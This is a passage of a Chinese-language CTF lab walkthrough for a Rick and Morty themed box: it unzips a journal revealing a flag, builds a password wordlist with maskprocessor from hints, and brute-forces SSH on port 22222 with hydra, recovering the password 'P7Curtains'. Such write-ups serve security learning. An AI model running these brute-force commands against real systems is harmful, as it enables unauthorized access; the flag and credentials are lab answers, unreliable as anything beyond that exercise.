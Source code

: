 解压压缩包

```
[Summer@localhost Morty]$ unzip journal.txt.zip 
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
error:  cannot create journal.txt
        Permission denied
[Summer@localhost Morty]$ cp journal.txt.zip /tmp
[Summer@localhost Morty]$ cd /tmp
[Summer@localhost tmp]$ unzip journal.txt.zip 
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
  inflating: journal.txt             
[Summer@localhost tmp]$ ls
journal.txt  journal.txt.zip  systemd-private-600aeec3477041cc9e077f6a83e35494-chronyd.service-NZjuFq  systemd-private-600aeec3477041cc9e077f6a83e35494-httpd.service-zIURtJ

[Summer@localhost tmp]$ head  journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 

```

使用找到`safe`二进制文件的提示，我查找了 Rick 的旧乐队 - `The Flesh Curtains`。我还需要根据这些单词**按特定顺序进行一些密码排列：**

- 1个大写字符
- 然后，1个号码
- 最后，乐队的话之一——`Flesh`或者`Curtains`

使用 Hashcat 进行排列`maskprocessor`：

```shell
# ?u = upper
# ?d = digit
mp64 ?u?dFlesh >> rick
mp64 ?u?dflesh >> rick
mp64 ?u?dCurtains >> rick
mp64 ?u?dcurtains >> rick
```

现在使用我的单词表 – `rick`，我将尝试通过以下方式暴力破解 SSH `hydra`：

```shell
hydra -IVf -s 22222 -l RickSanchez -P rick ssh://target-ip-address
```

而且，一段时间后我受到了打击：`P7Curtains`

![image-20220908172508989](../../.gitbook/assets/image-20220908172508989.png)